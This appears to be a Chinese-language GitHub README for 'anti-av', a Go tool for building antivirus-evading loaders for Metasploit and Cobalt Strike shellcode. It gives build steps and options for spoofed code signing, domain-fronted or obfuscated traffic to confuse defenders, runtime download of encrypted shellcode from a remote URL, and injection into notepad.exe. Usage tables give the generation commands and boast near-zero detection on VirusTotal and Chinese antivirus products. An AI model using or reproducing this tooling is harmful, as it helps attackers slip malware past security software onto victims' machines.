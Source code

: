 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string //签名binary时使用该域名。如果唯恐
        domain to be signed (default "baidu.com")
        
  -e    payload to be encrypted //布尔类型和-sc一起使用，对-sc指定的shellcode文件加密
  
  -ho string //远程加载shellcode时，通过隐藏流量（支持域前置）或混淆host达到干扰蓝队流量研判。
        host obfuscator (default "wwww.baidu.com")
        
  -l string //支持加载shellcode方式
        loader: binary (default "binary")
        
  -os string //支持的操作系统
        OS: windows,linux (default "windows")
        
  -sc string //shellcode的文件或url地址。如果是url，则在运行时访问下载。
        encrypt payload by anti-av: support 'msfvenom -f raw' OR 'cs raw' OR remote url loading (default "payload.e")
  -inject //布尔类型，运行时shellcode注入notepad进程。
        inject payload to notepad.exe       

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密shellcode   | 无                      | ./anti-av -sc ~/Desktop/payload.bin                          |
| 远程加载shellcode | 无                      | 1、./anti-av  -e -sc ~/Desktop/payload.bin    #加密shellcode<br />2、上传payload.e到公共下载服务<br />3、./anti-av -sc http://x.x.x.x/payload.e         #制作加载器 |
| 注入进程          | 会强制注入到notepad.exe | ./anti-av -sc ~/Desktop/payload.bin -inject 或<br />./anti-av -sc http://x.x.x.x/payload.e  -inject |



## 注意

* cs生成raw格式64位 payload，需要勾选x64
* 没有openssl和签名工具的系统可以设置参数 **-domain ""**禁止签名



## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |


